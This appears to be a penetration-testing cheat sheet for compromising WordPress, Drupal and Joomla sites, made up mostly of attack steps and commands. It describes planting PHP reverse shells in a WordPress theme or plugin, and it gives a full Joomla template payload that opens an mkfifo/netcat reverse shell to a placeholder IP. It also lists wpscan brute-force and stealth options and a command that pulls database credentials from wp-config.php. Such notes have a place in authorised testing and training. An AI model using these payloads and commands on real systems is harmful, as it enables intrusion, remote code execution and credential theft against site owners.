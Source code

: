- [Wordpress](#Wordpress)
- [Drupal](#Drupal)
- [Joomla](#Joomla)

-----------------------------------------------------------------------------------------------------------------------------------------------
# Wordpress

### Revereshell via thames
- Log_in
- Side menu
- Appearance
  - Editor
  - 404.php
  - paste php reverse shell
- run nc -lnvp [port]

- Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php

### ReverseShell via plugins
- Log_in
- Side menu
- Plugins
  - Add New
  - Add Plugin Browse
  - search file for example in /wp-content location
- run nc -lnvp [port]

### nmap scan
```
nmap -sV --script http-wordpress-enum <target>
nmap --script http-wordpress-enum --script-args check-latest=true,search-limit=10 <target>
nmap --script http-wordpress-enum --script-args type="themes" <target>
```
### wpscan

#### update wpscan 
- wpscan update

#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
- wpscan --url http://[victim_ip] --enumerate vp --plugins-detection aggressive
- wpscan --url http://[victim_ip] -e ap --plugins-detection aggressive
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan --url http://[victim_ip] --enumerate u
#### Password Bruteforce
- wpscan --url http://[victim_ip] --passwords wordlist.txt --usernames xyz threads 50
#### Username Bruteforce
- wprscan --url http://[victim_ip] -U wordlist.txt 
#### All Plugins
- wpscan --url http://[victim_ip] --enumerate ap
#### All Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Database Exports
- wpscan --url http://[victim_ip] --enumerate dbe
#### Backups
- wpscan --url http://[victim_ip] --enumerate cb
##### Random User-Agent
- --random-user-agent
##### Avoid Detection(limited check)
- --stealthy
##### Disable SSL/TLS Security
- --disable-tls-checks
##### Disable Wordpress Detection
- --force
###### Docker pull the repo
- docker pull wpscanteam/wpscan
###### Docker Enumerate Usernames
- docker run -it --rm wpscanteam/wpscan --url
[victim_ip] --enumerate u
###### Get data from config file
- cat [/target/wp/path/wp-config.php |grep -E "DB_USER|DB_PASS"

----------------------------------------------------------------------------------------------------------------------------------------------------------

# Drupal

#### Drupal version enumerate
```
- [victim_ip]/CHANGELOG.txt
```

#### Droopscan
```
droopscan scan drupal -u [target_url]
```

#### commix

- https://github.com/commixproject/commix

----------------------------------------------------------------------------------------------------------------------------------------------------------

# Joomla 

## Editing Template Files and Getting a Reverse Shell 

- Extensions -> Templates -> Templates
- Add new file
- Create file with name add a malicious extension e.g(php)
Paste as content:
```
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xxx.xxx.xxx.xxx 1234 >/tmp/f');
?>
```
- run via https://victim_url//templates/your_template_name/malicious_file_name.php



